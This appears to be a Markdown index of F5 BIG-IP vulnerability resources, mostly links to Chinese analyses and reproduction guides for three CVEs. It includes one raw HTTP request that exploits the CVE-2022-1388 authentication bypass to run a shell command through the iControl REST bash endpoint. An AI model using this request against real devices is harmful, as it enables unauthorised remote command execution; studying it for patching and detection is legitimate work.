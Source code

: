 # F5 big

F5 Networks K52145254：TMUI RCE 漏洞 CVE-2020-5902
+ [HSQLDB反序列化](https://buaq.net/go-84779.html)


F5 BIGIP iControl REST CVE-2021-22986
+ [脚本小子是如何复现漏洞(CVE-2021-22986)并实现批量利用](https://mp.weixin.qq.com/s/cavKq04hNU5pJoTBiPMZkw)
+ [F5 BIGIP iControl REST CVE-2021-22986漏洞分析与利用](https://www.anquanke.com/post/id/236159)
+ [F5 BIG-IP Cookie 信息泄露利用工具](https://mp.weixin.qq.com/s/RzYSA1ADrIQYQxqjug62sg)
+ [漏洞复现-F5 BIG-IP远程代码执行漏洞(CVE-2021-22986)](https://mp.weixin.qq.com/s/CDST3_FcVM8tvB0hTlrsJg)

CVE-2022-1388
+ [BIG-IP(CVE-2022-1388)从修复方案分析出exp](https://mp.weixin.qq.com/s/6gVZVRSDRmeGcNYjTldw1Q)
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46QVNhc1M=
Content-Length: 45

{
"command":"run",
"utilCmdArgs":"-c id"
}
```
+ [CVE-2022-1388 F5 BIG-IP iControl REST 处理进程分析与认证绕过漏洞复现](https://mp.weixin.qq.com/s/DR0RGE0lhBjBIF3TbDLhMw)
